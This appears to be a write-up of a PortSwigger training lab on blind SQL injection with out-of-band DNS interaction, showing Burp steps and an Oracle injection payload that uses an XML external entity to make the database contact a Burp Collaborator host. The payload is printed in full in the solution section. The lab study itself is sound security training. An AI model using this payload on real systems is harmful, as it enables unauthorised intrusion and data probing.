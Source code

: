 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0c8f9c66-4a4e-4986-809c-7f98925ddf02)

## Solution :

The payloads for each domain to perform a DNS lookup to an external domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/568c42f2-93d8-4a55-8fa9-ad774eeef678)

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```

Request captured -

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d9470386-e993-4095-9db8-67786c0f9813)


`Send this to Repeater`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ca5c93bf-8835-4671-8739-0371b4d10b02)


`Then Open the burp collaborator client, copy one of the domain provided` 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50679058-e287-42be-ae95-afafa4239c9f)

Then click on copy to clipbord option = `hsdsl3chnluavy0asy6vodz1ys4js9gy.oastify.com` we need paste it in the payload which we are going to do.

Since we are unsure of the database we are working with, we attempt every payload listed on DNS lookup for every database.

So the first one will be  `Oracle`

For that the payload is 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Then query will be changed by pasting the external  domain provided by collaborator would look like this

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://hsdsl3chnluavy0asy6vodz1ys4js9gy.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c71e3347-c20a-4269-8930-999d6ca7b6d9)

Then ctrl+u to encode the payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/395341c4-9d93-4f1f-8cba-c682b68f4261)

Then go to  collaborator and press poll button.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/92cf7b00-44c5-40bb-b04b-71145a972b86)

Lab solved

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f0f94479-d1d3-4a46-8feb-9d7fec62c9ce)










